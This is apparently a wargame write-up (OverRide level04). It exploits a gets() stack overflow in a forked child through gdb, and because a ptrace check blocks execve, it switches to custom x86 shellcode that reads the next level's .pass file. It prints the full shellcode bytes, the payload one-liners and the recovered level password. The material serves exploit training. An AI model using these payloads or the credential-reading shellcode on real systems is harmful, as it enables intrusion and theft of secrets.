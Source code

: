 # Level04

This binary will call fork() to create a child process. This child process will wait for an input using gets(). We're getting used to overflow it, let's try to see if we can overflow to any valuable register (looking at you, EIP). First of all we need to follow the child process in gdb :

    (gdb) set follow-fork-mode child

Then the classic pattern generator :

    (gdb) r
    Starting program: /home/users/level04/level04 
    [New process 1822]
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1822]
    0x41326641 in ?? ()
    (gdb) i r
    eax            0x0      0
    ecx            0xf7fd08c4       -134412092
    edx            0xffffd550       -10928
    ebx            0x41386541       1094214977
    esp            0xffffd5f0       0xffffd5f0
    ebp            0x31664130       0x31664130
    esi            0x0      0
    edi            0x66413965       1715550565
    eip            0x41326641       0x41326641 <-- offset 156
    eflags         0x10282  [ SF IF RF ]
    cs             0x23     35
    ss             0x2b     43
    ds             0x2b     43
    es             0x2b     43
    fs             0x0      0
    gs             0x63     99

Now we can simply send our now well known shellcode from level01 in an environment variable, get its address, pass it to EIP aaaaaaaand :

    level04@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
    [...]
    (gdb) x/500s $esp
    [...]
    0xffffd795:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322Rhn/shh//   bi\211\343RS\211\341\260\v"
    0xffffd821:      "SHELL=/bin/bash"
    [...]
    (gdb) x/s 0xffffd803
    0xffffd803:      "1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v"

Let's take an address that will land on one of the NOP operations, after SHELLCODE=, for instance 0xffffd7b1 (some addresses work, some don't, took a bit of trial and error, hence the 100 NOP at the beginning):

    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xb1\xd7\xff\xff"') | ./level04 
    Give me some shellcode, k
    no exec() for you

After digging into the source code for a bit, we can see a call to ptrace that looks for an execve call in the parent process. If execve is detected, the parent will kill the child, and write "no exec() for you".

So we can't use execve, but nothing prevents us from using read and write to directly write the password to stdout instead of spawning a shell. Let's craft a new shellcode that does that :

        section .text
            global _start
    _start:
            ; clear registers
            xor     eax, eax
            xor     ebx, ebx
            xor     ecx, ecx
            xor     edx, edx
            jmp     two

    one:
            pop     ebx
            ; set syscall number for sys_open
            mov     al, 5
            xor     ecx, ecx
            int     0x80

            ; move return value (fd) to esi
            mov     esi, eax
            jmp     read

    exit:
            ; set syscall number for sys_exit
            mov     al, 1
            xor     ebx, ebx
            int     0x80

    read:
            mov     ebx, esi
            mov     al, 3
            sub     esp, 1          ; reserve space for read buffer
            lea     ecx, [esp]      ; load address of buffer
            mov     dl, 1           ; set write length to 1 byte
            int     0x80

            xor     ebx, ebx
            cmp     ebx, eax        ; check EOF
            je      exit

            mov     al, 4   ; set syscall number for sys_write 
            mov     bl, 1   ; set fd to stdout
            mov     dl, 1   ; set write length to 1 byte
            int     0x80

            add     esp, 1  ; deallocate buffer space
            jmp     read

    two:
            call    one
            db      "/home/users/level05/.pass"

[source (AT&T syntax, painful, i know)](https://shell-storm.org/shellcode/files/shellcode-73.html)

    $ nasm -f elf32 read_shellcode.s -o readpass
    objdump -d ./readpass

    ./readpass:     file format elf32-i386


    Disassembly of section .text:

    00000000 <_start>:
    0:   31 c0                   xor    %eax,%eax
    2:   31 db                   xor    %ebx,%ebx
    4:   31 c9                   xor    %ecx,%ecx
    6:   31 d2                   xor    %edx,%edx
    8:   eb 32                   jmp    3c <two>

    0000000a <one>:
    a:   5b                      pop    %ebx
    b:   b0 05                   mov    $0x5,%al
    d:   31 c9                   xor    %ecx,%ecx
    f:   cd 80                   int    $0x80
    11:   89 c6                   mov    %eax,%esi
    13:   eb 06                   jmp    1b <read>
    [...]

Our shellcode becomes :

    \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass

Crafted this way so that we can simply replace the file to read in at the end easily in case we need it later on.

Now let's redo the overflow using this code :

    level04@OverRide:~$ export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
    level04@OverRide:~$ gdb ./level04 

    (gdb) b main
    Breakpoint 1 at 0x80486cd
    (gdb) r
    Starting program: /home/users/level04/level04 

    Breakpoint 1, 0x080486cd in main ()
    x/500s $esp
    [...]
    0xffffded3:      "LESSOPEN=| /usr/bin/lesspipe %s"
    0xffffdef3:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311\211\306\353\006\260\001\061\333\211\363\260\003\203\354\001\215\f$\262\0011\333\071\303t\346\260\004\263\001\262\001\203\304\001\353\337\350\311\377\377\377/home/users/level05/.pass"
    0xffffdfba:      "LESSCLOSE=/usr/bin/lesspipe %s %s"
    [...]
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf4\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf5\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf6\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    child is exiting...

